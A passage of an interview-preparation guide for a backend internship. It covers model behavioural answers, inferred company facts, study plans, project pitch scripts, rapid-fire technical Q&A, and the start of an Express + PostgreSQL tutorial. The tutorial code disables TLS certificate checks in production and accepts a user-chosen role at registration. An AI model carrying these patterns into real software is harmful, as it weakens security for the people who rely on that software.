- **Action**: Profiling the client lifecycle revealed that Next.js component re-renders were instantiating multiple distinct Socket.io connections because the socket was declared locally inside page components. I refactored the client to use a centralized Singleton socket manager wrapped in a React Custom Hook (`useSocket.js`), ensuring only one persistent connection per authenticated session. On the backend, I restructured `socketHandler.js` to isolate personal notification rooms (`user:${id}`) from dynamic project rooms (`project:${chatId}`), and implemented an idempotent client message tracking token to deduplicate messages.
- **Result**: Connection churn dropped to zero, duplicate message events were completely eliminated, and message delivery latency stabilized under 20 milliseconds.
- **Focus**: STAR structure, debugging depth, clear architectural resolution.

### 5. How do you handle a deadline you cannot meet?
- **Model Answer**: "The moment I detect that a deliverable is at risk of slipping, I communicate immediately with my engineering lead rather than waiting until the deadline arrives. First, I assess the remaining scope and break it down into core blockers versus non-critical enhancements. I present a transparent situation report: what has been completed, what is blocking completion, and a proposed mitigation plan—such as descoping non-essential secondary features (e.g., shipping basic pagination first and deferring fuzzy search filters to the next sprint) or reallocating tasks. Proactive communication and clear options protect team trust and release timelines."
- **Focus**: Accountability, proactive communication, prioritization.

### 6. How do you handle critical feedback on your code during code reviews?
- **Model Answer**: "I treat code reviews as an essential learning mechanism and a team quality gate, not a personal critique. When a senior engineer leaves critical comments—such as pointing out an N+1 query vulnerability or asking for stronger error boundary handling—I carefully analyze their reasoning. If the suggestion is clear, I implement the refactor immediately and document what I learned. If I have questions regarding architectural trade-offs, I seek clarification constructively with code snippets. My objective is always the same: shipping the cleanest, most performant, and most secure code possible for the product."
- **Focus**: Humility, growth mindset, technical objectivity.

### 7. Tell me about a time you had to learn something new quickly.
- **Situation**: For CrewUpFilms, I needed to implement Google OAuth authentication, but the latest Google Identity Services client had replaced the legacy `react-google-login` library and changed the token payload format.
- **Task**: I had 48 hours to comprehend the new Google Identity Services authorization flow, handle JWT `id_token` parsing, and ensure secure server-side verification.
- **Action**: I read Google's official identity documentation and RFC 7519 specifications. Instead of relying on abandoned third-party wrapper libraries, I built a lightweight, native Google One-Tap integration on the frontend and integrated Google's official `tokeninfo` verification endpoint in Express, extracting the subject claim (`sub`) and email to safely find-or-create user records in MongoDB.
- **Result**: The authentication flow was completed and tested ahead of schedule, providing a 1-click onboarding experience for users with zero third-party client bloat.
- **Focus**: Resourcefulness, reading official documentation, rapid execution.

### 8. How do you work effectively in a remote team?
- **Model Answer**: "Effective remote engineering relies on three pillars: over-communication, thorough documentation, and asynchronous discipline. I provide clear daily standup updates summarizing what I accomplished, what I am working on today, and any active blockers. I document API contracts using OpenAPI/Swagger and write comprehensive PR descriptions with testing steps so reviewers have complete context without needing synchronous meetings. I am also disciplined with Git hygiene, maintain clean branch structures, and ensure I am responsive on communication channels during core collaborative hours."
- **Focus**: Remote discipline, asynchronous communication, documentation.

### 9. How do you prioritize when you have multiple competing tasks?
- **Model Answer**: "I prioritize tasks using an Impact versus Urgency matrix. Production outages, security vulnerabilities, or broken CI/CD pipelines always take P0 priority. Next, I focus on unblocking fellow teammates—such as finalizing an API contract that the frontend team is waiting to integrate. For remaining feature development, I break complex deliverables into time-boxed milestones, tackle high-complexity logic early in the day when focus is highest, and communicate realistic timelines with my manager."
- **Focus**: Structured methodology, unblocking teammates, business impact.

### 10. The 2-Year Service Bond: How do you think about it?
- **Model Answer**: "I view the 2-year commitment as an investment in mutual growth. As an aspiring backend engineer, my priority is joining a technical team where I can deeply immerse myself in real-world production systems, master relational database optimization, contribute to scalable cloud infrastructure, and see the long-term impact of architectural decisions over multiple release cycles. Jumping between jobs every few months prevents an engineer from owning systems at scale or learning from technical debt. A 2-year timeline gives me the runway to grow from a contributing intern into a core, high-impact backend engineer who knows the codebase inside and out."
- **Focus**: Honest, mature, positive commitment to long-term engineering depth.

### 11. Where do you see yourself in 2 years?
- **Model Answer**: "In 2 years, I see myself as a confident, self-sufficient backend software engineer who has mastered our production architecture and takes full ownership of core backend services. I want to be the engineer who designs clean, scalable PostgreSQL schemas, leads zero-downtime database migrations, optimizes high-throughput APIs, and mentors incoming junior developers. Long-term, I aspire to contribute to high-level system architecture and cloud infrastructure decisions."
- **Focus**: Technical progression, leadership trajectory, codebase ownership.

### 12. What is your expected salary / stipend?
- **Model Answer**: "Based on the job description, I understand the internship offers a competitive monthly stipend leading into a Full-Time PPO package up to 6 LPA upon successful performance. This compensation structure aligns with my expectations. My primary focus right now is demonstrating exceptional engineering value during the internship, shipping production-quality code, and earning that full-time role as a core contributor to SHNOOR International."
- **Focus**: Professional, directly confirms JD terms without hesitation.

### 13. Do you have any questions for us? (5 Smart Questions for SHNOOR)
- **Question 1**: "How is the engineering team currently structured between frontend, backend, and DevOps, and what does the day-to-day workflow look like for an intern on the backend?"
- **Question 2**: "I noticed the JD emphasizes PostgreSQL and AWS. Are you currently running RDS PostgreSQL with an ORM like Prisma or Sequelize, or are you utilizing custom query builders and raw SQL?"
- **Question 3**: "What are the biggest technical scaling challenges or architectural initiatives the backend team is focusing on over the next two quarters?"
- **Question 4**: "How does your engineering team approach code reviews, continuous integration, and automated testing before pushing releases to production?"
- **Question 5**: "What qualities have distinguished the most successful interns who transitioned into full-time engineers at SHNOOR International?"
- **Focus**: High technical intelligence, curiosity, cultural engagement.

### 14. What is your biggest weakness?
- **Model Answer**: "In the past, my biggest weakness was spending too much time trying to solve difficult technical edge cases in isolation before asking for help. During the early days of CrewUpFilms, I spent nearly an entire day debugging a subtle race condition in WebSocket room joins before realizing that a 15-minute discussion with an experienced peer would have pinpointed the issue immediately. Since then, I have instituted a strict '30-minute rule': if I run into an intractable bug, I exhaustively debug, isolate reproducible steps, search official docs, and if still stuck after 30 minutes, I formulate a concise summary and seek guidance from my lead. This has drastically accelerated my engineering velocity."
- **Focus**: Real self-awareness, actionable behavioral improvement.

### 15. What is your biggest achievement?
- **Model Answer**: "My biggest achievement was architecting, launching, and deploying the CrewUpFilms platform from concept to production. Beyond building standard CRUD endpoints, I designed and integrated multiple complex backend subsystems: a real-time messaging pipeline using Socket.io that handles instant room-based communication, an automated fraud detection engine with weighted risk scoring to protect filmmakers from casting scams, and a multi-provider fallback email dispatcher. Taking a full-stack product from an empty Git repository to a deployed, secure web application with active user accounts gave me tremendous end-to-end engineering discipline."
- **Focus**: Ownership, technical complexity, tangible completion of real systems.


---

# Part D: Company Intelligence: SHNOOR International LLC

---

## D1. Company Overview
- **Corporate Entity**: SHNOOR International LLC.
- **Operating Model**: Fully remote technology operations.
- **Internship & Compensation Structure**: Paid backend software engineering internship leading into a Pre-Placement Offer (PPO) with compensation packages up to 6 LPA (INR), coupled with a 2-year service commitment / bond upon full-time conversion.
- **Primary Technology Stack Mentioned**: React (Frontend), PostgreSQL (Database), AWS Cloud Infrastructure (EC2, S3, RDS, IAM, CloudWatch), Render (Application Deployment), and Hostinger (Domains / DNS / VPS).
- **Public Data Confidence**: `[CONFIDENCE: LOW / NOT FOUND]` — Independent public data, corporate filings, and Glassdoor footprints for "SHNOOR International LLC" are minimal or private. All assessments below are reverse-engineered directly from the provided job description and technical requirements.

---

## D2. Strategic Deductions from the Job Description
1. **Startup / Lean Agile Culture**: The job description demands a versatile, full-stack aware backend generalist who can independently handle database schema design, migrations, REST APIs, real-time WebSockets, cloud deployments, and basic React integration. There are no siloed sub-teams for database administration or DevOps; interns are expected to be hands-on across the entire lifecycle.
2. **Production-Grade Data Rigor**: The explicit demand for **PostgreSQL**, relational schema normalization, transactions, query tuning, indexing, and ORMs (Prisma/Sequelize/TypeORM) confirms they are not building toy prototypes; they operate production transactional software requiring strict data integrity and ACID guarantees.
3. **Pragmatic Cloud Economics**: Combining **AWS** (enterprise services: RDS, S3, CloudWatch) with **Render** and **Hostinger** indicates a cost-conscious, pragmatic infrastructure strategy. They utilize Render for rapid microservice deployments, Hostinger for cost-effective domains and VPS hosting, and AWS for core storage and relational persistence.
4. **2-Year Bond Rationale**: Small tech firms implement 2-year service bonds to protect their upfront investment in engineering mentorship and domain knowledge transfer, ensuring interns transition into productive long-term contributors without early turnover.

---

## D3. Inferred Interview Process & Round Map
*Confidence: LOW (Inferred from industry standard patterns for technical roles with bonds).*

```
┌────────────────────────┐      ┌────────────────────────┐      ┌────────────────────────┐      ┌────────────────────────┐
│  Round 1: HR Screen    │ ───> │ Round 2: Tech Screen   │ ───> │ Round 3: Deep Dive     │ ───> │ Round 4: Executive Fit │
│  (30 Mins - Logistics) │      │ (45-60 Mins - DSA/SQL) │      │ (60 Mins - System/Code)│      │ (30 Mins - Offer/Bond) │
└────────────────────────┘      └────────────────────────┘      └────────────────────────┘      └────────────────────────┘
```

1. **Round 1: HR Screening (30 mins)**:
   - Verification of background, educational timeline, and graduation year.
   - Confirmation of 100% remote availability.
   - Explicit check on willingness to accept the 2-year service bond upon PPO conversion.
2. **Round 2: Technical Screening (45–60 mins)**:
   - JavaScript/Node.js fundamentals (Event loop, asynchronous promises, closures).
   - Live coding: 1–2 LeetCode Easy/Medium DSA problems (Arrays, Hash Maps, Strings).
   - Core SQL live queries: Writing JOINs, aggregations, and subqueries on a given schema.
3. **Round 3: Deep Technical & Architecture (60 mins)**:
   - Exhaustive deep-dive walkthrough of your flagship project (**CrewUpFilms**).
   - REST API design, JWT auth security edge cases, real-time WebSocket mechanics.
   - Relational database schema design and migration strategies (MongoDB to PostgreSQL).
   - Mini system design and cloud deployment discussions (AWS EC2/S3, Render, Nginx).
4. **Round 4: Culture Fit & Management Final (30 mins)**:
   - Discussion with engineering leadership on work ethic, communication in remote teams, problem-solving mindset, and long-term career vision.

---

## D4. Preparation Priority Hierarchy

```
Rank 1: CrewUpFilms Project Walkthrough  [CRITICAL - P0]  ████████████████████ (Anchor of interview)
Rank 2: SQL & PostgreSQL Queries         [CRITICAL - P0]  ████████████████████ (Explicit requirement)
Rank 3: REST API Design & Express.js    [HIGH - P1]      ████████████████░░░░ (Core day-to-day)
Rank 4: JWT Authentication & Security    [HIGH - P1]      ████████████████░░░░ (Auth mastery expected)
Rank 5: AWS & Cloud Deployment (Render) [MEDIUM - P2]    ████████████░░░░░░░░ (Required for ops)
Rank 6: Core Data Structures (DSA)      [MEDIUM - P2]    ████████████░░░░░░░░ (Screening barrier)
Rank 7: React & Next.js Integration     [MEDIUM - P2]    ██████████░░░░░░░░░░ (Frontend empathy)
Rank 8: Docker, Linux, Git, & CI/CD     [GOOD TO HAVE]   ████████░░░░░░░░░░░░ (Engineering hygiene)
Rank 9: Redis & Advanced Message Queues [BONUS]          ██████░░░░░░░░░░░░░░ (Scale differentiator)
```

---

# Part E: Practice and Plan

---

## E1. Structured Study Plans

### 7-Day Intensive Mastery Plan

| Day | Focus Area | Detailed Activities | Daily Deliverable |
| :--- | :--- | :--- | :--- |
| **Day 1** | **Backend & Project Architecture** | Re-read all CrewUpFilms server files. Trace the 5 primary flows: auth, project creation, application state machine, direct messaging, and notification hook. | Deliver a fluent, verbal 5-minute project pitch out loud without hesitation. |
| **Day 2** | **Auth, Security & OWASP** | Master C4 questions. Build a standalone Express + JWT + bcrypt authentication microservice from scratch with rate limiting and input validation. | Write a secure refresh token rotation flow on paper. |
| **Day 3** | **PostgreSQL & SQL Mastery** | Practice all 25 SQL problems from section C5 in a local PostgreSQL terminal. Practice writing JOINs, CTEs, window functions, and indexing strategies. | Solve 10 SQL problems on LeetCode/HackerRank without viewing solutions. |
| **Day 4** | **Real-Time Systems & Socket.io** | Trace Socket.io connection lifecycle from client `useSocket.js` to server `socketHandler.js`. Review horizontal scaling with Redis Pub/Sub adapter. | Draw the complete real-time messaging sequence diagram on paper. |
| **Day 5** | **DSA & JavaScript Core** | Solve 20 core algorithmic problems from C11 (Focus: Two Sum, Kadane’s, Sliding Window, Valid Parentheses, Binary Search, BFS/DFS). | Implement a queue using two stacks and explain the amortized complexity. |
| **Day 6** | **DevOps, AWS, & Deployment** | Review Section C8 & C9. Build the multi-stage Dockerfile and `docker-compose.yml`. Walk through AWS EC2/RDS and Render deployment steps. | Successfully deploy a containerized Express + PostgreSQL demo to Render. |
| **Day 7** | **Mock Interview & Behavioral** | Rehearse all 15 HR/Behavioral questions in STAR format. Conduct a timed rapid-fire mock interview using section E4. Review 40-fact cheat sheet. | Complete a 45-minute verbal mock technical interview. |

---

### 3-Day Crash Plan (High-Velocity Sprint)

- **Day 1: Project Architecture, Auth, and Real-Time (8 Hours)**
  - *Hours 1–3*: Master C1 (Project Questions 1–24) and the 5-Minute Pitch Script. Memorize all architecture details of CrewUpFilms.
  - *Hours 4–6*: Master C4 (Authentication, JWT vs Sessions, bcrypt 12 rounds, OWASP Top 10, password reset security).
  - *Hours 7–8*: Master C10 (WebSockets, Socket.io rooms, post-save hook observer pattern).
- **Day 2: SQL, PostgreSQL, and Express APIs (8 Hours)**
  - *Hours 1–4*: Solve and memorize the 25 SQL problems in Section C5. Understand index selection and EXPLAIN plans.
  - *Hours 5–6*: Master C6 (Prisma/Sequelize ORMs, N+1 query problem, migrations).
  - *Hours 7–8*: Master C3 (Express middleware order, 4-argument error handler, pagination, rate limiting).
- **Day 3: DSA, Cloud/DevOps, and Behavioral (8 Hours)**
  - *Hours 1–3*: Review and code the top 15 Easy/Medium DSA problems (Two Sum, Kadane’s, Reverse Linked List, Valid Parentheses, Binary Search).
  - *Hours 4–5*: Master C8 & C9 (AWS EC2 setup, RDS vs Atlas, S3 pre-signed URLs, Docker multi-stage build, Render deploy).
  - *Hours 6–8*: Rehearse HR STAR answers (Why SHNOOR, 2-Year Bond, Technical Challenge) and practice Section E4 Rapid-Fire questions.

---

## E2. The One-Page Cheat Sheet: 40 Essential Facts About CrewUpFilms

1. **Architecture Monolith**: Built as a decoupled system with an Express.js backend and a Next.js 14 (React 18) frontend.
2. **Primary Storage**: MongoDB Atlas utilizing Mongoose ODM schemas for flexible document persistence.
3. **Authentication Strategy**: Dual-stream authentication supporting local credentials and Google OAuth via Google's `tokeninfo` endpoint.
4. **JWT Specification**: Stateless JSON Web Tokens signed with `HS256`, expiring in 7 days, containing `{ userId, role }`.
5. **Client Token Storage**: JWT stored in browser `localStorage`, attached to API requests via Axios request interceptors in the `Authorization: Bearer <token>` header.
6. **Password Hashing**: Salted and hashed using `bcrypt` with a cost factor of 12 rounds.
7. **Password Reset Security**: Generates unhashed 32-byte tokens via `crypto.randomBytes(32)` emailed to users; stores SHA-256 hashes in MongoDB.
8. **Email Enumeration Defense**: `forgotPassword` returns the exact same success message regardless of whether the email exists.
9. **Real-Time Protocol**: Socket.io v4 running on the same HTTP server instance as Express.
10. **Socket Rooms Architecture**: Automatically assigns sockets to personal rooms (`user:${id}`) and dynamic project rooms (`project:${chatId}`).
11. **Socket Auth Middleware**: Handshake intercepts incoming sockets and validates the JWT via `socket.handshake.auth.token`.
12. **Notification Observer Hook**: Mongoose `notificationSchema.post('save')` emits real-time events to `user:${recipient}` using `global._io`.
13. **Fraud Detection Engine**: Rule-based scoring engine returning a risk score (0–100+) and levels (`low`, `medium`, `high`).
14. **Scam Keyword Detection**: Scans project titles and descriptions against a blacklist of money demands, contact redirection, and fake studios (+25 pts per hit).
15. **Account Age Risk Signal**: Adds +20 risk points if the creator's account age is under 7 days.
16. **Private Residence Red Flag**: Adds +25 risk points if an audition is held at a private residence by a newly registered account.
17. **Project Moderation Thresholds**: Low risk (<30) auto-approves; medium risk (30–59) flags an admin warning; high risk (60+) forces pending moderation.
18. **Recommendation Engine**: 4-signal weighted scoring matching projects to filmmakers (Max 100 points).
19. **Role Match Signal**: Awards +40 points if user's role matches any project `requiredRoles`.
20. **Skill Overlap Signal**: Awards +0 to +30 points based on overlapping profile skills and required role tags.
21. **Location Similarity Signal**: Awards +20 points for same city or remote listings; +10 points for same state.
22. **Experience Proximity Signal**: Awards +10 points for exact match, +5 points for 1-tier difference across 4 categorical experience levels.
23. **Recommendation Fallback**: Automatically backfills results with latest open projects if scored matches are fewer than 3.
24. **Verification Gate**: `VERIFICATION_REQUIRED` in `createProject` blocks unverified users from posting projects when enabled.
25. **Strict Auth Rate Limiter**: Configured with `express-rate-limit` allowing maximum 20 requests per 15-minute window per IP on `/api/auth`.
26. **General Rate Limiter**: Permits 120 requests per minute per IP on general `/api` routes.
27. **Dev Rate Limit Bypass**: Skips rate limits when `process.env.NODE_ENV === 'development'` to facilitate frontend development.
28. **Dynamic CORS Configuration**: Parses `CLIENT_URL` into an array, auto-expands `www.` and non-`www` origins, and enables `credentials: true`.
29. **No-Origin Policy**: Explicitly allows requests without an origin header (`!origin`) to support mobile clients, curl, and server health probes.
30. **Compound Unique Index**: `Application` schema enforces `{ project: 1, applicant: 1, role: 1 }` uniquely to prevent duplicate submissions.
31. **Sparse Index on GoogleId**: `User` schema indexes `{ googleId: 1 }` with `{ sparse: true }` to allow null values for email/password accounts.
32. **Email Provider Cascade**: Resilient delivery fallback attempting Tier 1 (Resend), cascading to Tier 2 (Brevo), then Tier 3 (Gmail SMTP).
33. **Security Middleware Ordering**: `helmet()` runs first, followed by `compression()`, `cors()`, `express.json()`, and route controllers.
34. **Error Middleware Arity**: Express identifies the global error handler by its explicit 4-argument signature `(err, req, res, next)`.
35. **Graceful Shutdown**: Catches `SIGTERM` and `SIGINT`, stops accepting HTTP requests via `server.close()`, and cleanly terminates MongoDB connections.
36. **Unhandled Rejection Alerts**: Production listener emails full error stack traces to `ADMIN_ALERT_EMAIL` upon unhandled promise rejections.
37. **Optional Auth Middleware**: `optionalProtect` extracts user context if token is present, but lets unauthenticated guest traffic proceed.
38. **Bandwidth Compression**: `compression()` middleware gzips outbound HTTP responses, cutting JSON payload sizes by 60–80%.
39. **Hosting Environment**: Production backend hosted on Railway container infrastructure; client deployed to Vercel.
40. **PostgreSQL Migration Blueprint**: Ready to migrate models to PostgreSQL tables using foreign keys, row locks, and Prisma ORM migrations.

---

## E3. Professional Project Pitch Scripts

### 2-Minute Elevator Pitch
> "CrewUpFilms is a real-time collaboration marketplace built to solve the fragmented, scam-ridden process of indie film production and crew hiring. I engineered the backend using Node.js, Express, MongoDB, and Socket.io, with a Next.js 14 frontend.
>
> On the backend, I designed a RESTful API supporting dual-stream authentication with JWTs and Google OAuth, protected by tiered rate limiters and helmet security headers. To protect indie filmmakers from predatory casting calls, I developed an automated fraud detection engine that evaluates keyword threats and account metadata, calculating a weighted risk score that automatically flags or holds suspicious listings for admin review.
>
> For seamless collaboration, I built a real-time messaging and notification system using Socket.io. Sockets are authenticated via JWT handshakes and organized into personal rooms and project rooms. Notifications are pushed instantly to users through an asynchronous post-save lifecycle hook on the database model. Finally, I ensured high reliability by deploying the backend to Railway with graceful shutdown handling and a three-tier fallback email cascade across Resend, Brevo, and Gmail.
>
> Building CrewUpFilms gave me hands-on mastery of API design, real-time architectures, database modeling, and security, which I am excited to apply to production systems at SHNOOR International."

---

### 5-Minute Comprehensive Deep-Dive Pitch
> "CrewUpFilms is a full-stack collaboration platform designed to empower independent filmmakers, actors, and production crew to discover vetted projects, audition, and collaborate in real-time. The application was born out of a clear industry problem: indie filmmakers rely on scattered social media groups riddled with fake auditions and zero workflow structure.
>
> From an architectural standpoint, I built a decoupled system with a Next.js 14 client on Vercel and a containerized Express.js server on Railway interfacing with MongoDB Atlas.
>
> **Authentication & Security Architecture**:
> Authentication supports both local credentials and Google OAuth. Passwords are encrypted using bcrypt with 12 salt rounds. For Google OAuth, the client passes an `id_token` which our backend validates via Google's `tokeninfo` endpoint before provisioning an internal 7-day JWT. For API protection, I established custom Express middleware layers: a strict 20-attempt rate limiter on auth routes, a general 120 req/min limiter on API routes, dynamic CORS origin expansion supporting both www and non-www domains with credentials, and `optionalProtect` middleware that enables personalized content for logged-in users while serving public feeds to guests.
>
> **Real-Time Communications Infrastructure**:
> Real-time interactivity is powered by Socket.io integrated onto the Express HTTP server. Sockets authenticate during handshake using the client's JWT. Sockets automatically join two room types: an isolated personal room (`user:${userId}`) for notifications and direct chat alerts, and dynamic project rooms (`project:${chatId}`) for team collaboration. To decouple notification dispatching from individual controllers, I implemented an Observer pattern using a Mongoose `post('save')` lifecycle hook on the Notification schema. Whenever an application status updates or a follow occurs, the saved document automatically broadcasts to the recipient's personal room via `global._io`.
>
> **Intelligent Business Services**:
> I built two high-value backend engines:
> 1. **Fraud Detection Engine**: Analyzes projects prior to publication. It combines scam keyword scanning across titles and compensation details with creator trust signals—including account age, first-time paid postings, private residence filming locations, and prior report counts. Projects scoring 60+ risk points are automatically sequestered in pending status and trigger instant administrator alerts.
> 2. **Recommendation Engine**: A 4-signal weighted algorithm scoring open projects up to 100 points based on Role Matching (40%), Profile Skill Overlap (30%), Location Proximity/Remote status (20%), and Experience Level Proximity (10%).
>
> **Reliability & Production Resilience**:
> For transactional communications, I engineered a multi-tier fallback cascade: attempting Resend API first, falling back to Brevo SMTP, and finally to Gmail SMTP. For deployment stability, I implemented graceful shutdown listeners that capture `SIGTERM` signals from Railway, cleanly drain in-flight HTTP requests, close MongoDB connection pools, and prevent memory corruption.
>
> **Evolution & Next Steps**:
> If expanding the system today, my primary initiative would be migrating relational models—such as User profiles, Applications, and Team Members—to PostgreSQL via Prisma ORM to leverage foreign key constraints, row-level locking during application acceptance, and ACID transactions. I would also introduce Redis for caching hot endpoints and a BullMQ message queue for background job processing.
>
> This project gave me end-to-end engineering discipline across API security, real-time data pipelines, and infrastructure, which directly aligns with what SHNOOR International is building."

---

## E4. 30 Rapid-Fire Technical Questions & Answers

1. **Q: What is the difference between HTTP 401 and 403?**
   **A**: 401 Unauthorized indicates authentication is missing or invalid (user identity unknown). 403 Forbidden indicates the user is authenticated, but lacks permissions to access the resource.
2. **Q: How does bcrypt prevent rainbow table attacks?**
   **A**: By salting passwords with a unique cryptographically random string per user, ensuring identical passwords produce completely different hash outputs.
3. **Q: What is the purpose of CORS preflight?**
   **A**: The browser sends an `OPTIONS` request before complex cross-origin requests to verify whether the server permits the HTTP method, headers, and origin.
4. **Q: What is the difference between `process.exit(0)` and `process.exit(1)`?**
   **A**: `0` signals clean success to the OS; `1` signals an uncaught exception or fatal error.
5. **Q: Why use `morgan` in Express?**
   **A**: It is an HTTP request logging middleware that records request method, URL, status code, response time, and byte length to stdout for monitoring.
6. **Q: What does `compression()` middleware do?**
   **A**: Gzips/Deflates outbound HTTP response bodies exceeding a threshold, reducing payload size by 60–80% and accelerating page delivery.
7. **Q: What is a compound unique index in MongoDB?**
   **A**: An index spanning multiple fields (e.g., `{ project: 1, applicant: 1, role: 1 }`) that guarantees the combination of those field values is unique across all documents.
8. **Q: What does `{ sparse: true }` do on a MongoDB index?**
   **A**: Instructs MongoDB to only index documents that actually contain the indexed field, allowing multiple documents to omit the field without violating unique constraints.
9. **Q: How does Socket.io fall back if WebSockets are blocked?**
   **A**: It falls back to HTTP Long-Polling, continuously sending HTTP GET/POST requests to simulate duplex communication.
10. **Q: What is the difference between `io.emit()` and `socket.emit()`?**
    **A**: `io.emit()` broadcasts the event to all connected sockets on the server; `socket.emit()` sends the event exclusively back to that single client socket.
11. **Q: What is the N+1 query problem?**
    **A**: Querying 1 parent record and then executing $N$ distinct secondary queries in a loop to fetch related child data, resulting in $N+1$ database round-trips.
12. **Q: What is an ACID transaction?**
    **A**: A set of operations guaranteeing Atomicity (all or nothing), Consistency (schema rules preserved), Isolation (concurrent operations do not interfere), and Durability (committed data survives crashes).
13. **Q: What is the difference between INNER JOIN and LEFT JOIN?**
    **A**: INNER JOIN returns rows only when there is a match in both tables; LEFT JOIN returns all rows from the left table and matched rows from the right table (or NULL if no match).
14. **Q: What is a database index?**
    **A**: A B-tree data structure that speeds up data retrieval at the cost of additional storage space and slower write operations.
15. **Q: What does the SQL `HAVING` clause do?**
    **A**: Filters grouped rows *after* aggregate functions (`COUNT`, `AVG`) are computed, whereas `WHERE` filters individual rows *before* aggregation.
16. **Q: What is the difference between `let`, `const`, and `var`?**
    **A**: `var` is function-scoped and hoisted; `let` and `const` are block-scoped and exist in the Temporal Dead Zone until declared. `const` cannot be reassigned.
17. **Q: What is the JavaScript Microtask queue?**
    **A**: A high-priority event loop queue that processes Promise callbacks (`.then`, `await`) and `process.nextTick` immediately after the current call stack clears, before macrotasks (`setTimeout`).
18. **Q: What is a closure in JavaScript?**
    **A**: A function bundled together with references to its surrounding lexical environment, allowing it to access outer-scope variables even after the outer function has returned.
19. **Q: Why use `Promise.allSettled()` instead of `Promise.all()`?**
    **A**: `Promise.all()` rejects immediately if any single promise fails; `Promise.allSettled()` waits for all promises to resolve or reject, returning full status reports for each.
20. **Q: What is the difference between React `useState` and `useRef`?**
    **A**: Updating `useState` triggers a component re-render; updating `useRef.current` mutates a persistent value across renders without causing a re-render.
21. **Q: What is React Hydration?**
    **A**: The process where client-side React attaches event listeners and state management to static HTML markup pre-rendered by the server.
22. **Q: What is the purpose of `'use client'` in Next.js 14?**
    **A**: It designates a component as a Client Component, enabling client React hooks (`useState`, `useEffect`) and browser APIs in the App Router.
23. **Q: What is the difference between Docker `CMD` and `ENTRYPOINT`?**
    **A**: `ENTRYPOINT` defines the base executable container command; `CMD` provides default arguments that can be easily overridden via CLI arguments.
24. **Q: What is a multi-stage Docker build?**
    **A**: A build pattern using multiple `FROM` statements to compile code and install dependencies in builder stages, copying only minimal artifacts to the final lightweight production image.
25. **Q: What is the difference between Git `rebase` and `merge`?**
    **A**: `merge` combines branches with a dedicated merge commit, preserving historical topology; `rebase` replays commits onto the target tip, producing a clean linear history.
26. **Q: What is an AWS VPC?**
    **A**: Virtual Private Cloud—a logically isolated virtual network where you launch AWS resources with private subnets, routing tables, and security gateways.
27. **Q: Why should database ports never be opened to `0.0.0.0/0`?**
    **A**: It exposes the database directly to the public internet, leaving it vulnerable to automated brute-force attacks, port scanning, and ransomware attacks.
28. **Q: What is AWS S3?**
    **A**: Simple Storage Service—an object storage service offering 99.999999999% (11 9s) durability for storing images, videos, and static assets.
29. **Q: What is the difference between Horizontal and Vertical scaling?**
    **A**: Vertical scaling adds more CPU/RAM to a single machine; Horizontal scaling adds more server instances behind a load balancer.
30. **Q: What is a pre-signed S3 URL?**
    **A**: A cryptographically signed temporary URL generated by the server that allows a client browser to upload a file directly to an S3 bucket without exposing AWS credentials.

---

## E5. Hands-On Engineering Checklist: Build and Deploy a REST API with PostgreSQL

This hands-on checklist walks through building an Express + PostgreSQL API matching SHNOOR International’s core stack, including JWT auth, testing, Swagger docs, Docker containerization, and Render deployment with custom Hostinger DNS.

---

### Step 1: Initialize Express + PostgreSQL Project
```bash
mkdir crewup-pg-api && cd crewup-pg-api
npm init -y
npm install express pg jsonwebtoken bcryptjs dotenv express-validator cors helmet morgan
npm install -D nodemon jest supertest swagger-jsdoc swagger-ui-express
```

Update `package.json` scripts:
```json
{
  "scripts": {
    "start": "node src/server.js",
    "dev": "nodemon src/server.js",
    "test": "jest --detectOpenHandles"
  }
}
```

---

### Step 2: PostgreSQL Connection Pool (`src/config/db.js`)
```javascript
const { Pool } = require('pg');
require('dotenv').config();

const pool = new Pool({
  connectionString: process.env.DATABASE_URL,
  ssl: process.env.NODE_ENV === 'production' ? { rejectUnauthorized: false } : false,
  max: 20,
  idleTimeoutMillis: 30000,
  connectionTimeoutMillis: 2000,
});

pool.on('connect', () => {
  console.log('✅ Connected to PostgreSQL database pool');
});

pool.on('error', (err) => {
  console.error('❌ Unexpected database error on idle client:', err);
  process.exit(-1);
});

module.exports = {
  query: (text, params) => pool.query(text, params),
  pool,
};
```

---

### Step 3: Database Table Initialization Script (`src/scripts/initDb.js`)
```javascript
const { query } = require('../config/db');

const initSchema = async () => {
  const sql = `
    CREATE EXTENSION IF NOT EXISTS "pgcrypto";

    CREATE TABLE IF NOT EXISTS users (
      id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
      name VARCHAR(100) NOT NULL,
      email VARCHAR(255) UNIQUE NOT NULL,
      password_hash VARCHAR(255) NOT NULL,
      role VARCHAR(50) DEFAULT 'filmmaker',
      created_at TIMESTAMP DEFAULT NOW()
    );

    CREATE TABLE IF NOT EXISTS projects (
      id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
      title VARCHAR(150) NOT NULL,
      description TEXT NOT NULL,
      project_type VARCHAR(50) NOT NULL,
      created_by UUID REFERENCES users(id) ON DELETE CASCADE,
      created_at TIMESTAMP DEFAULT NOW()
    );

    CREATE INDEX IF NOT EXISTS idx_projects_created_by ON projects(created_by);
  `;
  try {
    await query(sql);
    console.log('✅ PostgreSQL tables created successfully');
    process.exit(0);
  } catch (err) {
    console.error('❌ Failed to initialize schema:', err);
    process.exit(1);
  }
};

initSchema();
```

---

### Step 4: JWT Auth Endpoints (`src/controllers/authController.js`)
```javascript
const bcrypt = require('bcryptjs');
const jwt = require('jsonwebtoken');
const { query } = require('../config/db');

exports.register = async (req, res) => {
  const { name, email, password, role } = req.body;
  try {
    const existing = await query('SELECT id FROM users WHERE email = $1', [email]);
    if (existing.rows.length > 0) {
      return res.status(400).json({ success: false, message: 'Email already registered' });
    }

    const salt = await bcrypt.genSalt(12);
    const hash = await bcrypt.hash(password, salt);

    const result = await query(
      'INSERT INTO users (name, email, password_hash, role) VALUES ($1, $2, $3, $4) RETURNING id, name, email, role',
      [name, email, hash, role || 'filmmaker']
    );

    const user = result.rows[0];
    const token = jwt.sign({ userId: user.id, role: user.role }, process.env.JWT_SECRET, { expiresIn: '7d' });

    return res.status(201).json({ success: true, token, user });
  } catch (err) {
    return res.status(500).json({ success: false, message: err.message });
  }
};

exports.login = async (req, res) => {
  const { email, password } = req.body;
  try {
    const result = await query('SELECT * FROM users WHERE email = $1', [email]);
    if (result.rows.length === 0) {
      return res.status(401).json({ success: false, message: 'Invalid credentials' });
    }

    const user = result.rows[0];
    const isMatch = await bcrypt.compare(password, user.password_hash);
    if (!isMatch) {
      return res.status(401).json({ success: false, message: 'Invalid credentials' });
    }

